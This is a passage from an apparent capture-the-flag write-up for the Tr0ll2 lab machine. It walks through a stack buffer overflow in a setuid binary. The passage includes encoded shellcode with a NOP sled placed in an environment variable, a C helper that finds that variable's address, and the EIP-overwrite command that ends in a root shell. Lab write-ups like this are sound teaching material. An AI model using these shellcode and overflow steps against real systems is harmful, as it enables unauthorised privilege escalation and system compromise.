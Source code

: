 ```
"\x4a\xd6\x9d\x7d\xfc\x37\xed\xe9\xfc\x2f\x3e\x88\x95\xc1" +
"\xc9\xaf\x37\xf6\xc2\x2f\xb7\x06\xfc\x4d\xde\x68\x2d\xe1" +
"\x48\x75\x66\x56\x01\x94\x45\xd8"
```

Calling ```generate``` with ```-b '\x00'``` to avoid NULL bytes that could mess up our exploit and ```-s 50``` to include 50 byte NOP sled. This will help us locating the shellcode in the memory as we won't need to provide exact address where the shellcode starts, but just a rough vicinity (we can land anywhere on NOPs).

Let's put the shellcode in the environment.

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door3$ export EGG=$(python -c 'print "\xb4\xbb\x46\x02\xd4\x35\x05\xf8\xbf\x4a\x1d\xb1\x93\xa8\x24\x3f\x91\x27\x2f\xb2\x41\x42\x34\x77\x13\xfd\xb0\x9b\xb6\x99\x4f\x0c\x3d\x66\x3c\xba\xb9\x43\xb5\x8d\xb7\x14\x96\x97\xb3\x37\x49\xf9\x4b\x40\xb8\xd9\xf7\xa2\xd9\xdd\xc7\xd9\x74\x24\xf4\x5d\x31\xc9\xb1\x0b\x31\x45\x15\x03\x45\x15\x83\xc5\x04\xe2\x2c\x9d\xa9\x81\x57\x30\xc8\x59\x4a\xd6\x9d\x7d\xfc\x37\xed\xe9\xfc\x2f\x3e\x88\x95\xc1\xc9\xaf\x37\xf6\xc2\x2f\xb7\x06\xfc\x4d\xde\x68\x2d\xe1\x48\x75\x66\x56\x01\x94\x45\xd8"')
```

And it's in! Now all we need to do, is find its address and overwrite EIP with it. To do it, let's reach to yet another tool in my arsenal - simple C code to locate environment variables.

{% codeblock lang:c %}
#include <unistd.h>

void main()
{
    printf("EGG address 0x%lx\n", getenv("EGG"));
    return 0;
}
{% endcodeblock %}

Copy it across, compile and run to find the address of our EGG (shellcode).

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door3$ ~/egghunt 
EGG address 0xbffffe57
```

Alright, so we have the address of the EGG, let's try to exploit it! Again, we need to overwrite 268 bytes to get to EIP and then pass in address of our shellcode.

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door3$ ./r00t $(python -c 'print "A" * 268 + "\x57\xfe\xff\xbf"')
Segmentation fault
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door3$ ./r00t $(python -c 'print "A" * 268 + "\x67\xfe\xff\xbf"')
# whoami
root
```

Voila! :) Needed to adjust address of shellcode a little bit, but thanks to NOP sled we got it on a second try - that was pretty simple. Let's now have a look at ret2libc option (my personal favourite).
